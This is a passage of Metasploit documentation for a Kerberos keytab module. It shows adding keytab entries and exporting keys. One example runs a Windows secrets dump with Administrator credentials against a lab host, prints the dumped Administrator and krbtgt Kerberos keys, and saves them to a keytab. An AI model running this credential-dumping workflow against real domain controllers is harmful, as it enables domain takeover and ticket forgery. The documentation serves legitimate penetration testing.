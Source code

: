 Adding entries using a specified password:

```msf
msf6 auxiliary(admin/kerberos/keytab) > run action=ADD keytab_file=./example.keytab principal=Administrator realm=DEMO.LOCAL enctype=ALL password=p4$$w0rd

[*] modifying existing keytab
[*] Generating key with salt: DEMO.LOCALAdministrator. The SALT option can be set manually
[+] keytab entry added to ./example.keytab
```

### Export

Export Kerberos encryption keys stored in the Metasploit database to a keytab file. This functionality is useful in conjunction with secrets dump

```msf
# Secrets dump
msf6 > use auxiliary/gather/windows_secrets_dump
msf6 auxiliary(gather/windows_secrets_dump) > run smbuser=Administrator smbpass=p4$$w0rd rhosts=192.168.123.13
... omitted ...
# Kerberos keys:
Administrator:aes256-cts-hmac-sha1-96:56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01
Administrator:aes128-cts-hmac-sha1-96:df990c21c4e8ea502efbbca3aae435ea
Administrator:des-cbc-md5:ad49d9d92f5da170
Administrator:des-cbc-crc:ad49d9d92f5da170
krbtgt:aes256-cts-hmac-sha1-96:e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c
krbtgt:aes128-cts-hmac-sha1-96:ba87b2bc064673da39f40d37f9daa9da
krbtgt:des-cbc-md5:3ddf2f627c4cbcdc
... omitted ...
[*] Auxiliary module execution completed

# Export to keytab
msf6 auxiliary(gather/windows_secrets_dump) > use admin/kerberos/keytab
msf6 auxiliary(admin/kerberos/keytab) > run action=EXPORT keytab_file=./example.keytab
[+] keytab saved to ./example.keytab
Keytab entries
==============

 kvno  type              principal                                   hash                                                              date
 ----  ----              ---------                                   ----                                                              ----
 1     1  (DES_CBC_CRC)  WIN11-DC3$@adf3.local                       3e5d83fe4594f261                                                  1970-01-01 01:00:00 +0100
 1     17 (AES128)       ADF3\DC3$@adf3.local                        967ccd1ffb9bff7900464b6ea383ee5b                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  ADF3\DC3$@adf3.local                        62336164643537303830373630643133                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       Administrator@adf3.local                    56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01  1970-01-01 01:00:00 +0100
 1     17 (AES128)       Administrator@adf3.local                    df990c21c4e8ea502efbbca3aae435ea                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     1  (DES_CBC_CRC)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       krbtgt@adf3.local                           e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c  1970-01-01 01:00:00 +0100
 1     17 (AES128)       krbtgt@adf3.local                           ba87b2bc064673da39f40d37f9daa9da                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  krbtgt@adf3.local                           3ddf2f627c4cbcdc                                                  1970-01-01 01:00:00 +0100
```